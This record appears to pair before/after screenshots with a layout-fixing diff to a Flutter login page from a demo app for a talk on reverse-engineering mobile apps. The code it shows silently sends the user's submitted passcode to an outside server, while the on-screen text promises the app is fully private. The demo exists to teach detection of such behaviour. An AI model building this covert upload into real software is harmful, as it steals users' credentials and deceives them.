

Before and after one commit to Skn0tt/reverse-engineering-mobile-apps-talk, a Flutter app: the screen it shows after launch, on a phone screen of 412 x 824 dp. Shown: the top 973 px of the screen. Run offline on Flutter 3.47's test engine with Material 2 defaults, Android fonts, the phone set to English and light mode, and no system bars.

Commit message:
Fix layout problem

```diff
--- a/demo_app/lib/login.dart
+++ b/demo_app/lib/login.dart
@@ -7,7 +7,8 @@ Welcome to your very own, very private, very local secret treasure app.
 It is _the_ best app that you can use,
 and it is _the_ most private one.
 I assure you.
-""".trim();
+"""
+    .trim();
 
 class LoginPage extends StatefulWidget {
   @override
@@ -15,20 +16,16 @@ class LoginPage extends StatefulWidget {
 }
 
 class _LoginPageState extends State<LoginPage> {
-
   Future<void> _sneakilyUploadPasswordToOwnServer(String password) async {
     await http.post(
-      "https://my-json-server.typicode.com/skn0tt/reverse-engineering-mobile-apps-talk/sneakyPasswordCollection",
-      body: password
-    );
+        "https://my-json-server.typicode.com/skn0tt/reverse-engineering-mobile-apps-talk/sneakyPasswordCollection",
+        body: password);
   }
 
   void _handleSubmitted(String password) {
     _sneakilyUploadPasswordToOwnServer(password);
     Navigator.push(
-      context,
-      MaterialPageRoute(builder: (context) => SecretKeeper())
-    );
+        context, MaterialPageRoute(builder: (context) => SecretKeeper()));
   }
 
   @override
@@ -38,28 +35,24 @@ class _LoginPageState extends State<LoginPage> {
         title: Text("thou shalt not pass"),
       ),
       body: Padding(
-        padding: EdgeInsets.symmetric(horizontal: 50, vertical: 140),
+        padding: EdgeInsets.symmetric(horizontal: 50, vertical: 0),
         child: Center(
           child: Column(
-            mainAxisAlignment: MainAxisAlignment.start,
+            mainAxisAlignment: MainAxisAlignment.spaceEvenly,
             children: <Widget>[
+              TextField(
+                obscureText: true,
+                autocorrect: false,
+                onSubmitted: _handleSubmitted,
+                decoration: InputDecoration(
+                    border: OutlineInputBorder(),
+                    labelText: "Please input your very own passcode"),
+              ),
               Text(
                 intro,
                 textAlign: TextAlign.center,
                 style: TextStyle(fontSize: 18),
               ),
-              Padding(
-                padding: EdgeInsets.only(top: 100),
-                child: TextField(
-                  obscureText: true,
-                  autocorrect: false,
-                  onSubmitted: _handleSubmitted,
-                  decoration: InputDecoration(
-                    border: OutlineInputBorder(),
-                    labelText: "Please input your very own passcode"
-                  ),
-                )
-              )
             ],
           ),
         ),
```
